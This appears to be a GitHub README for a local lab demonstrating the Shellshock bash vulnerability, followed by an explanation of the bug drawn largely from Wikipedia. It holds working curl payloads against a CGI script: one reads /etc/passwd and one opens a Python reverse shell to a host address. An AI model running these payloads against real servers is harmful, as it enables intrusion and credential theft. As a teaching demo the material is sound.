 # Getting started on demoing a Shellshock vulnerability: 

## Setup
  1. Set up a vagrant box using this vagrant file. This will install Apache and forward to port 8080.. 
  2. Create a cgi file in /usr/lib/cgi-bin. It can be as simple as html content type "hello world."  
  3. Test the following vulnerabilities against 'http://localhost:8080/cgi-bin/shellshock_test.sh' 


## Demoing the vulnerability
### To test via the command line: 

```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```bash

(If you see "vulnerable" you need to update bash. Otherwise, you should be good to go.)


#### Via curl: 

#### To just echo data:

```bash
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; echo 'hi world of exploits'" http://localhost:8080/cgi-bin/shellshock_test.sh
```bash

#### To copy passwords: 
```bash
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:8080/cgi-bin/shellshock_test.sh
```bash

#### To create a reverse shell:
```bash
curl -H "UserAgent: () { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.2.2\",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" http://localhost:8080/cgi-bin/shellshock_test.sh
```bash


## More information about Shellshock: 
Source: https://en.wikipedia.org/wiki/Shell_shock

This is a major vulnerability that occurs when specific characters are included as part of a variable definition in Bash.

Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition. 

If the characters "{ :;};" are included as the function definition, any arbitrary code that is inserted AFTER that definition is processed. This isn't supposed to happen.




### Scale of the problem: 

It looks like basically every version of Bash through version 4.3 is affected by this vulnerability.


### Why is CGI vulnurable? 

The Common Gateway Interface (CGI) vector (an interface between a web server and executables that produce dynamic content) has received the bulk of the focus from attackers thus far. However, the reach of the BASH Shellshock bug doesn’t stop at web servers. Any application that relies on user-controlled data to set OS-level environment variables and then invokes the shell from that same context can trigger the vulnerability. In other words, web applications relying on a specific type of user input can be manipulated to make clients (i.e., consumers) vulnerable to attack. 

Because CGI relies on environment variables set in the header which are later interpreted to generate dynamic content, it is vulnerable to this kind of attack. 

### More about Bash: 

In Unix-based operating systems, and in other operating systems that Bash supports, each running program has its own list of name/value pairs called environment variables. When one program starts another program, it provides an initial list of environment variables for the new program.[21]Separately from these, Bash also maintains an internal list of functions, which are named scripts that can be executed from within the program.[22]Since Bash operates both as a command interpreter and as a command, it is possible to execute Bash from within itself. When this happens, the original instance can export environment variables and function definitions into the new instance.[23] Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition. The new instance of Bash, upon starting, scans its environment variable list for values in this format and converts them back into internal functions. It performs this conversion by creating a fragment of code from the value and executing it, thereby creating the function "on-the-fly", but affected versions do not verify that the fragment is a valid function definition.[24] Therefore, given the opportunity to execute Bash with a chosen value in its environment variable list, an attacker can execute arbitrary commands or exploit other bugs that may exist in Bash's command interpreter.

When a web server uses the Common Gateway Interface (CGI) to handle a document request, it passes various details of the request to a handler program in the environment variable list. For example, the variable HTTP_USER_AGENT has a value that, in normal usage, identifies the program sending the request. If the request handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted server request.[6]
Security documentation for the widely used Apache web server states: "CGI scripts can ... be extremely dangerous if they are not carefully checked."[29] and other methods of handling web server requests are often used. There are a number of online services which attempt to test the vulnerability against web servers exposed to the Internet.
